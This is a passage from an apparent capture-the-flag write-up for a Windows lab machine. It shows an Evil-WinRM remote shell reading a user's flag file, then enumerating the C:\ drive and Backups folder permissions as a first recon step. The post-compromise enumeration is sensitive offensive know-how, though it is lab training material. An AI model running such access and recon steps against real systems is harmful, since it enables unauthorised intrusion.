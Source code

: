 #### user.txt flag

`edward.martin` is the holder of the `user.txt` flag.
```
*Evil-WinRM* PS C:\Users\edward.martin\Documents> tree C:\Users\edward.martin /a /f
Folder PATH listing
Volume serial number is 000001E8 3985:943C
C:\USERS\EDWARD.MARTIN
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
```

The flag was printed and submitted.
```
*Evil-WinRM* PS C:\Users\edward.martin\Documents> type C:\Users\edward.martin\Desktop\user.txt
538cc14efa48308f6c0654a2c9cd8be0
```

## alexander.green

### Recon

#### Splunk backup file

The `C:\` directory was enumerated, revealing a `Backups` folder. 
As a member of the `Backup_Reviewers` group, `edward.martin` had read access to this folder, confirmed via `icacls`.
```
*Evil-WinRM* PS C:\Users\edward.martin\Documents> ls \


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/5/2025  12:32 AM                Backups
d-----         3/25/2025   2:06 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          3/4/2025  11:28 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-r---         6/28/2025   9:54 AM                Users
d-----         3/25/2025   2:15 PM                Windows

*Evil-WinRM* PS C:\Users\edward.martin\Documents> icacls C:\Backups
C:\Backups HAZE\Backup_Reviewers:(OI)(CI)(RX)
           CREATOR OWNER:(OI)(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(OI)(CI)(F)
           BUILTIN\Administrators:(OI)(CI)(F)
```

